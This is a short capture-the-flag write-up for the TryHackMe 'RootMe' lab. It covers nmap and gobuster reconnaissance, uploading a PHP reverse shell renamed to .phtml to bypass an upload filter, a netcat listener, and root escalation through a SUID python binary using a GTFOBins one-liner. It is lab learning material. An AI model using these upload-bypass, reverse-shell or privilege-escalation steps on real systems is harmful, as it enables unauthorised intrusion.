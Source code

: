 # RootMe

# Task 2. Reconnaisance, general information about the target. 
    Linked IP of attach machine to 'rootme.thm' using (sudo nano /etc/hosts)
    - How many ports are open. (2)
        nmap rootme.thm -T5 -v 
            - 22/tcp open ssh
            - 80/tcp open http
    - What version of Apache is running. (2.4.29)
        nmap rootme.thm -sV -T5
            - 80/tcp open http  Apache httpd 2.4.29 ((Ubuntu))
    - What service is running on port 22. (ssh)
        nmap rootme.thm -T5 -v
            - 22/tcp open ssh
    - Find directories on the web server using the GoBuster tool. 
        gobuster -e -u rootme.thm -w common.txt 
            - cd into location of common.txt to simplify 
            - Output listed directories on the webserver, including /panel
    - What is the hidden directory. (/panel/)   

# Task 3. Getting a shell, upload file and get a reverse shell 
    -Once on '(rootme.thm)./panel' I coudl upload a file to the server
    - Used the php_reverse_shell.php from https://github.com/pentestmonkey/php-reverse-shell 
        - changed listening ip in file to my ip 
        - uploaded to server and got an error stating php files were not allowed
        - changed name of file from .php to .phtml, idea came from -> [title](https://book.hacktricks.xyz/pentesting-web/file-upload)
        - This worked and I confirmed by checking 'rootme.thm/uploads' which was another directory I found using GoBuster
        - Next, set up listener to receive a connection with the shell 
            nc -nlvp 1234 
        - Once in shell, ran 'find / -type f -name user.txt' to find file
        - cat /var/www/user.txt gave me the flag
# Task 4. Privilege escalation, escalate privileges to root
    - Search for files with SUID permission, which file is weird? 
        find / -type f -user root -perm -u=s
            - this showed me files with SUID permission 
            - /usr/bin/python, was the weird file 
    - Find a form to escalate your privileges 
        python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
            - got this from [title](https://gtfobins.github.io/gtfobins/python/)
            - this escalated my priveleges to root
    - root.txt
        find / -type f -name root.txt 2> /dev/null
        cat /root/root.txt
            - This gave final flag



